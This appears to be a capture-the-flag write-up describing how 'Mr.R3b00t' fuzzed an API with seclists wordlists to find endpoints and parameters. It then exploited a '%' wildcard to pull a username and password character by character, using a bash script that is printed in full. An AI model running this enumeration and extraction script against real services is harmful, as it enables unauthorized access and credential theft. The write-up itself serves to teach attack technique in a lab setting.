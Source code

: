 Using a proper wordlist from seclist did the JOB and  Mr.R3b00t found two valid endpoints

```bash
cat /usr/share/seclists/Discover/Web-Content/api/objects/txt | xargs -n 1 -P 20 -I {} ./newscript.sh ../api/{}
```
{F1138187}
{F1138187}

Mr.R3b00t now had the valid endpoints, now the next step was to enumerate the params endpoints

```bash
cat /usr/share/seclists/Discover/Web-Content/api/objects/txt | xargs -n 1 -P 20 -I {} ./newscript.sh ../api/user?{}=
```

{F1138196}
{F1138197}

The params "username" and "password" were two valid params for the endpoint /api/user. No valid endpoints were found on the /api/ping param though.

Trying bruteforcing username and password didn't work out but while fuzzing the params Mr.R3b00t found out that '%' sign is allowed as a wildcard.

{F1138194}

"Boolean based character matching" can be done using this behaviour, Mr.R3b00t quickly created a new script F1138200 to enumerate username and password.

```bash
#!/bin/bash

OP=""
USER=""
CHAR=""
VALID=""

echo -e "extracting $1.."

while [ 1 ]; do
for i in $(cat chars); do
    OP=`./newscript.sh ../api/user?$1=$CHAR$i%25 | grep -oi invalid | wc -c`
    #echo -e "Testing -> $CHAR$i"
    if [[ $OP -eq 8 ]]; then
        #echo -e "Testing -> $CHAR$i"
        CHAR="$CHAR$i"
        echo -e "Found -> $CHAR"
        break
    fi
done
done
```
After executing the above script in just few minutes Mr.R3b00t had both username and password for the "attack box".

{F1138206}
{F1138205}

